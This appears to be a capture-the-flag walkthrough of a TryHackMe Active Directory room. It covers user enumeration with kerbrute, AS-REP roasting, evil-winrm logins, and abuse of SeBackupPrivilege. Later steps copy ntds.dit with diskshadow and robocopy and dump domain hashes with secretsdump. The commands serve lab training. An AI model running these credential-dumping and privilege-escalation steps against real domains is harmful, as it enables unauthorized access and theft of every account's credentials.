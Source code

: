 Like always we start our enumeration by running “nmap” to scan for all open ports on the target system:

```
nmap -sV -sC -p- fusioncorp.thm -oN nmap.txt

-sV    →  Probe open ports to determine service
-sC    →  Scan using the default set of scripts
-p-    →  Scan all ports
-oN   →  Save the ouput of the scan in a file
```

![image](https://user-images.githubusercontent.com/76821053/123538370-841da400-d72c-11eb-8508-202b697877da.png)

Normally Active Directory windows machines have alot of open ports, which at times can be scary. But , following the basics.

We will explorer the http webserver: 

![image](https://user-images.githubusercontent.com/76821053/123538375-8d0e7580-d72c-11eb-9d78-b968a9c6653f.png)

Since there was not any usefull information on the website we can search for hidden directories with “gobuster”:
```
gobuster dir --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --url http://fusioncorp.thm -x .txt,.cgi,.php,.log,.bak,.xxx,.old

dir             → Uses directory/file enumeration mode
--wordlist  → Path to wordlist 
--url           → specifies the path of the target url we want to find any hidden directories
-x              → Search for all files with the specified extentions 
```

![image](https://user-images.githubusercontent.com/76821053/123538388-97c90a80-d72c-11eb-8c8c-e19839507a21.png)

We have found an interesting file in the directory /backup which had a list of of employees and their usernames:

![image](https://user-images.githubusercontent.com/76821053/123538395-a0214580-d72c-11eb-85cb-751cb77489c1.png)

Content of "employees.ods":

![image](https://user-images.githubusercontent.com/76821053/123538400-a7e0ea00-d72c-11eb-8a12-437c14f90969.png)

With this information we can create a username wordlist and use “kerbrute" which is a enumeration tool used to brute-force and enumerate valid  active-directory users by abusing the Kerberos pre-authentication.

![image](https://user-images.githubusercontent.com/76821053/123538409-b202e880-d72c-11eb-8d0f-2b958c9c3e77.png)

```
./kerbrute_linux_amd64 --dc ip_target -d fusion.corp userenum users.txt
```

![image](https://user-images.githubusercontent.com/76821053/123538417-bb8c5080-d72c-11eb-9622-6aff68b9e068.png)

There is a valid username lparker@fusion.corp. Now we will use an "impacket" tool called "GetNPUsers.py" to dump the kerberos hash for all kerberoastable accounts. In this case for the account lparker@fusion.corp.

```
GetNPUsers.py -no-pass -dc -ip ip_target_machine fusion.corp/lparker
```

![image](https://user-images.githubusercontent.com/76821053/123538427-c5ae4f00-d72c-11eb-9d3c-7e7f6e1316c4.png)

We got the hash, since it is encrypted we need to crack it with “John the Ripper”, “hashcat” or another tool of your choice.

![image](https://user-images.githubusercontent.com/76821053/123538511-22aa0500-d72d-11eb-9b01-d331f281be52.png)

Success we have “lparker” credentials, connect with “evil-winrm” and we can start doing some reconnaissance of the machine:

![image](https://user-images.githubusercontent.com/76821053/123538522-3190b780-d72d-11eb-9bf8-658811cb86a1.png)

We found “jmurphy" and “Administrator" accounts. Also the first flag of the room.

![image](https://user-images.githubusercontent.com/76821053/123538529-41a89700-d72d-11eb-82a3-f7b53836a129.png)

Now we are going to query the user jmurphy with “rpcclient” service:

```
rpcclient -U lparker ip_target_machine

queryuser jmurphy
```
![image](https://user-images.githubusercontent.com/76821053/123538536-4d945900-d72d-11eb-85ca-c2f78fd7e0ad.png)

![image](https://user-images.githubusercontent.com/76821053/123538564-7288cc00-d72d-11eb-8c7c-d7754d5203c7.png)

In the description in plaintext we found the password for “jmurphy”.

Lets login again with “evil-winrm” but this time with the new user credentials:

![image](https://user-images.githubusercontent.com/76821053/123538568-816f7e80-d72d-11eb-9ab5-b116e3a13673.png)

Found Second flag:

![image](https://user-images.githubusercontent.com/76821053/123538572-87fdf600-d72d-11eb-8d51-9843ecc766a4.png)

Now to privesc in order to get the last flag we can check /privs for our user:

![image](https://user-images.githubusercontent.com/76821053/123538575-90eec780-d72d-11eb-9f0e-f7452cee0574.png)

We have some privileges that we can exploit and one of them is “SeBackupPrivilege”.

Has we can see the contents of user “Administrator” can be displayed but we cannot read or execute files like the last "flag.txt" file.

![image](https://user-images.githubusercontent.com/76821053/123538589-9fd57a00-d72d-11eb-91f6-3e6032e6b119.png)

This usefull [github](https://github.com/giuliano108/SeBackupPrivilege) repository from "giuliano108" shows us how to take advantage of the SeBackupPrivilege. It allows the user to access directories/files that he doesn't own or doesn't have permission to.

So with “evil-winrm” we can upload the two “.dll” files that we got from the github repository to the target machine:

![image](https://user-images.githubusercontent.com/76821053/123538595-a9f77880-d72d-11eb-9cb5-e5305669b59e.png)

Like in "meterpreter" shell we can do commands “download or upload” to transfer files between the target and the attacker machine.

![image](https://user-images.githubusercontent.com/76821053/123538602-bb408500-d72d-11eb-997c-0b83c4814eb2.png)

Now after importing the two modules we have to user command “Copy-FileSeBackupPrivilege”, this command will make a copy of the “flag.txt” file to our directory abusing “SeBackupPrivilege”:

```
Copy-FileSeBackupPrivilege .\flag.txt C:\Users\jmurphy\flag.txt -Overwrite
```

![image](https://user-images.githubusercontent.com/76821053/123538607-c4c9ed00-d72d-11eb-9d94-6473bd81160f.png)

Now read the last flag!!

![image](https://user-images.githubusercontent.com/76821053/123538616-cf848200-d72d-11eb-9176-b81419df2523.png)

We have all the flags but let's explore and see if we can escalate our privileges further.

My first attempt to privesc to user “Administrator” failed, because i got an invalid “administrator” hash. Let me show:

With user “jmurphy” we can save “sam” and “system” files into a directory that we can access by doing:

```
reg save hklm\sam C:\Users\jmurphy\temp\sam

reg save hklm\system C:\Users\jmurphy\temp\system
```

![image](https://user-images.githubusercontent.com/76821053/123538642-df9c6180-d72d-11eb-90c9-b9ab7574fba8.png)

Now just download the files to your attacker machine:

![image](https://user-images.githubusercontent.com/76821053/123538652-e6c36f80-d72d-11eb-9396-55066e99b93e.png)

With the tool "pypykatz" we can extract the hashes from the "sam" file:

```
pypykatz registry --sam sam system
```

![image](https://user-images.githubusercontent.com/76821053/123538663-ef1baa80-d72d-11eb-8702-dd31c6d969b9.png)

As we can see below we failed login with “Administrator” hash for whatever reason. Maybe because the “sam” file was from the windows machine itself and not the Domain Controller. 

![image](https://user-images.githubusercontent.com/76821053/123538676-f80c7c00-d72d-11eb-8f27-d0ae3095dc17.png)

After reading more on how to privesc this machine through "SeBackupPrivilege" i found a very usefull article in [hackingarticles](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/) website.

To get all the hashes of the Domain Controller we need “ntds.dit” and “system” files from the target machine.

For getting the “ntds.dit” file we need to use "shadowdisk" functionalities because “ntds.dit” file is always running on the system and doesn't let us make a copy of it.

So we can create a custom “Distributed Shell File" with the commands necessary to make a copy of the Windows drive which then we can extract the “ntds.dit” file:

```
set context persistent nowriters
set metadata c:\Users\jmurphy\temp\metadata.cab
set verbose on
add volume c: alias privesc
create
expose %privesc% x:
```

![image](https://user-images.githubusercontent.com/76821053/123538687-0195e400-d72e-11eb-9da7-e5f83ca81359.png)

Use “unix2dos” to convert the encoding and spacing of the dsh to be windows compatible.

![image](https://user-images.githubusercontent.com/76821053/123538701-0bb7e280-d72e-11eb-9f6a-9ab40c6ac2ed.png)

Running “evil-winrm” with “jmurphy” user i created a /temp folder in his home directory and uploaded the “hashdump.dsh”:

![image](https://user-images.githubusercontent.com/76821053/123538707-14101d80-d72e-11eb-8a36-5c8b5fa4cab1.png)

To ran the commands inside “hashdump.dsh” we will "diskshadow":

```
diskshadow /s hashdump.dsh
```

![image](https://user-images.githubusercontent.com/76821053/123538717-1ecab280-d72e-11eb-9b9f-591f4757dfc9.png)

Now to make the actual copy of the “ntds.dit” we have to use "robocopy" on the new driver letter that we created just now:

```
robocopy /b x:\windows\ntds . ntds.dit
```

![image](https://user-images.githubusercontent.com/76821053/123538734-2a1dde00-d72e-11eb-96c0-951fb6a97d78.png)

To get the “system” file is easier we just need to use:

```
reg save hklm\system C:\Users\jmurphy\temp\system
```

![image](https://user-images.githubusercontent.com/76821053/123538760-3a35bd80-d72e-11eb-862b-433f1e97e7df.png)

We have all the files that we need to get hashes, we just need to download them to our attacker machine:

![image](https://user-images.githubusercontent.com/76821053/123538773-43bf2580-d72e-11eb-83e1-0cd890f010fe.png)

![image](https://user-images.githubusercontent.com/76821053/123538776-4752ac80-d72e-11eb-8e62-1c9510a224c5.png)

![image](https://user-images.githubusercontent.com/76821053/123538779-4ae63380-d72e-11eb-9275-987c54fd23f8.png)

On our attacker machine we can use “impacket  secretsdump” tool to extract all the hashes inside "ntds.dit":

```
impacket-secretsdump -ntds ntds.dit -system system local
```

![image](https://user-images.githubusercontent.com/76821053/123538892-d233a700-d72e-11eb-98ca-0272c861099e.png)

We have a valid “Administrator” hash to use with “evil-winrm”:

![image](https://user-images.githubusercontent.com/76821053/123538919-f68f8380-d72e-11eb-8b48-d206166f8437.png)

Success!

























